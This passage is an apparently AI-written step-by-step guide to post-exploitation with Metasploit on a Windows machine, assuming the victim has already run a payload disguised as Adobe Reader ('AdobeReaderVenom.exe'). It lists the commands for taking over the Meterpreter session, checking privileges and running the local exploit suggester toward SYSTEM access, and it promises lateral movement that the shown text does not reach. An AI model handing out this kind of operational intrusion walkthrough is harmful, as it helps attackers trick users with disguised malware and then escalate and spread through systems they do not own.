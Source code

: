 1. **Establishing the foothold** (you already did this with `msfvenom`)
2. **Privilege escalation** (elevate access from user to SYSTEM)
3. **Lateral movement** (spread to another machine)

We’ll assume:

* You're using Kali Linux
* Target is a vulnerable Windows VM (like Win 7/XP with UAC disabled or low)
* You already have a Meterpreter session open from `AdobeReaderVenom.exe`

---

## 🧱 **STEP 1: Confirm Access (Foothold)**

In `msfconsole`, after the user runs `AdobeReaderVenom.exe`:

```bash
sessions
```

If you see:

```
1  meterpreter x86/windows  USERNAME @ TARGET_HOST ...
```

Then connect to it:

```bash
sessions -i 1
```

---

## 🛡️ **STEP 2: Privilege Escalation**

Now you’re inside the victim machine as a low-privilege user.

### 🔍 Check current privileges:

```bash
getuid
```

### 🔍 Check system info:

```bash
sysinfo
```

### 🚀 Try automatic escalation:

```bash
run post/multi/recon/local_exploit_suggester
```

This shows which local exploits might work.
